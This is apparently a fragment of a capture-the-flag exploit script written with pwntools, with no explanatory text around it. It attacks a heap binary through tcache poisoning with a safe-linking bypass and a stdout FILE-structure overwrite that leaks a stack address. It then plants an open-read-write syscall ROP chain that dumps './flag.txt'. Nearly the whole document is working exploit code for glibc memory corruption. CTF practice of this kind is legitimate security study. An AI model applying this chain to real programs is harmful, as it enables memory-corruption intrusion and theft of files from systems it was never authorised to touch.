 ```py
    stdout = libc.address + 0x21a780
    environ = libc.address + 0x2a72d0 + 8
    strr = libc.address + 0x1bd460

    pwn.log.success(f"environ: {hex(environ)}")
    pwn.log.success(f"stdout: {hex(stdout)}")

    add(0, 0x100, b"YY") # pop a chunk from the tcache to let an entry left to a 
    free(8) # free(a) => tcache

    # unsortedbin => oob on a => tcache poisoning
    add(
        1, 0x130, pwn.flat(
                            b"T"*0x108 + pwn.p64(0x111),
                           (stdout) ^ ((heap + 0x2b90) >> 12)
                           )
        )
    add(2, 0x100, b"TT")

    # tcache => stdout
    add(3, 0x100, pwn.flat(0xfbad1800, # _flags
                           libc.sym.environ, # _IO_read_ptr
                           libc.sym.environ, # _IO_read_end
                           libc.sym.environ, # _IO_read_base
                           libc.sym.environ, # _IO_write_base
                           libc.sym.environ + 0x8, # _IO_write_ptr
                           libc.sym.environ + 0x8, # _IO_write_end
                           libc.sym.environ + 0x8, # _IO_buf_base
                           libc.sym.environ + 8 # _IO_buf_end
                           )
        )

    stack = pwn.u64(io.recv(8)[:-1].ljust(8, b"\x00")) - 0x160 # stackframe of fgets
    pwn.log.info(f"stack: {hex(stack)}")

    rop = pwn.ROP(libc, base=stack)

    # ROPchain
    rop(rax=pwn.constants.SYS_open, rdi=stack + 0xde + 2 - 0x18, rsi=pwn.constants.O_RDONLY) # open
    rop.call(rop.find_gadget(["syscall", "ret"]))
    rop(rax=pwn.constants.SYS_read, rdi=3, rsi=(stack & ~0xfff), rdx=0x300) # file descriptor bf ...
    rop.call(rop.find_gadget(["syscall", "ret"]))

    rop(rax=pwn.constants.SYS_write, rdi=1, rsi=(stack & ~0xfff), rdx=0x50) # write
    rop.call(rop.find_gadget(["syscall", "ret"]))
    rop.raw("./flag.txt\x00")

    # victim => tcache
    free(8) 
    
    # prev => tcache 0x140
    free(7) 

    # tcache poisoning
    add(5, 0x130, b"T"*0x100 + pwn.p64(0) + pwn.p64(0x111) + pwn.p64(((stack - 0x28) ^ ((heap + 0x2b90) >> 12))))
    add(2, 0x100, b"TT") # dumb

    print(rop.dump())
    add(3, 0x100, pwn.p64(0x1337)*5 + rop.chain())

    io.interactive()
```